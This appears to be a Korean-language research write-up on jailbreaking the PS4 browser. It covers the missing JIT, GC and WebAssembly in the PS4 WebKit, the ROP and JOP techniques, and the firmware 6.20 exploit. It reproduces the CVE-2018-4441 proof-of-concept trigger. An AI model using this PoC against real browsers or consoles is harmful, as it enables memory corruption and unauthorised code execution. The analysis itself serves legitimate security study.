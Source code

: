 ### 3.2. NO Garbage Collector
JIT과 마찬가지로 Browser exploit에서 활용되는 Garbage Collector도 `PS4`에서는 비활성화 되어 있다.

<img width="732" alt="스크린샷 2020-12-09 오후 7 44 04" src="https://user-images.githubusercontent.com/47859343/101620296-b4834680-3a57-11eb-830f-620004bc519d.png">

마찬가지로 UART LOG를 보면 비활성화 되어 있음을 확인 할 수 있다.

### 3.3. NO WASM
`WebAssembly` 또한 PS4 브라우저에서 지원을 안한다. WebAssembly 객체를 만들 때 오류가 발생하면 alert로 메세지를 띄우게끔 테스트를 해 보았더니,

```javascript
<!DOCTYPE html>
<html>
  <head>
  </head>
  <body>
    <script>
        try{
          var memory = new WebAssembly.Memory({initial:10, maximum:100});
        }catch(error){
          alert(error);
        }
    </script>
  </body>
</html>
```

![nowasm](https://user-images.githubusercontent.com/47859343/101623898-73d9fc00-3a5c-11eb-85b9-52b1717e9d80.jpeg)

PS4에서 오류가 발생하여 `"ReferenceError: Can't find variable: WebAssembly"`이 출력 되는 것을 확인 할 수 있었다. 확실히 WebAssembly는 없다.

### 3.4. Return Oriented Programming, Jump Oriented Programming
> 요약하자면 PS4 WebKit에는 JIT, GC, WebAssembly가 존재하지 않는다.

그렇기에 ROP, JOP 기법을 사용해서 exploit을 해야 한다. 우리는 이전 Jailbreak 사례들 중에서 이러한 기법이 사용된 케이스들을 분석하였다. 그 중 6.20 Jailbreak 사례에 대해서 간략히 언급하고 넘어가도록 하겠다.

- ROP(Return Oriented Programming) : ROP는 RET 명령어를 이용하여 프로그램의 흐름을 제어하는 Exploit 기술 이다. 공격자가 실행 공간 보호(NXbit) 및 코드 서명(Code signing)과 같은 보안 방어가 있는 상태에서 코드를 실행할 수 있게 해준다.<sup id="head1">[1](#foot1)</sup>
- JOP(Jump Oriented Programming) : JOP는 JMP 명령어를 이용하여 프로그램의 흐름을 제어하는 Exploit 기술 이다.<sup id="head2">[2](#foot2)</sup>

#### 3.4.1. FW 6.20 WebKit exploit
6.20 버전의 WebKit exploit에 CVE-2018-4441 취약점이 이용되었다. PoC는 아래와 같다.
```javascript
function main() {
    let arr = [1];

    arr.length = 0x100000;
    arr.splice(0, 0x11);

    arr.length = 0xfffffff0;
    arr.splice(0xfffffff0, 0, 1);
}

main();
```
```
public length, vector length, m_numValuesInVector
````
- public length : array.length를 했을 때 출력되는 길이
- vector length : 실제로 할당된 공간의 길이
- m_numValuesInVector : 실제로 할당된 element의 개수
